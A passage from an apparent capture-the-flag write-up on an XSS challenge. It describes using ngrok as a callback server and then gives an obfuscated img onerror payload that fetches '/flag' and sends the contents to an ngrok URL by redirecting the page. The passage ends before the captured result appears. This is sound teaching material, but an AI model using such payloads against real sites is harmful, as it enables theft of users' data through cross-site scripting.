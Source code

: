 ## Getting the Flag

I fired up a local web server on my laptop and the ran `ngrok` against it to see what kind of URL it would give me:

![image-20230213205119667](./assets/image-20230213205119667.png)

If you don't have ngrok in your tool belt, for sure go register for a free account and install the utility. When you run it, it assigns you a public facing URL and any traffic that goes to it is tunneled to your computer to whatever port you tell it. This is really nice since you don't have to open any ports in your local home router.

Here, I'm running a local nodejs express web server on port 5050.

Notice it also gives you a Web Interface so you can easily view the traffic.

That URL is quite a bit shorter. Let's retry with that:

```
<img src='
'onerror='/*
*/fetch(/*
*/"/flag")/*
*/.then(r/*
*/=>r.text/*
*/()).then/*
*/(d=>/*
*/location/*
*/.href=/*
*/"http:/"/*
*/+"/be34"/*
*/+"-76-1"/*
*/+"12-10"/*
*/+"3-115"/*
*/+".ngro"/*
*/+"k.io?"/*
*/+d)'>
```

This is only 18 lines!

When I submit this payload, the attack works locally.  I see this in the ngrok Web Interface:

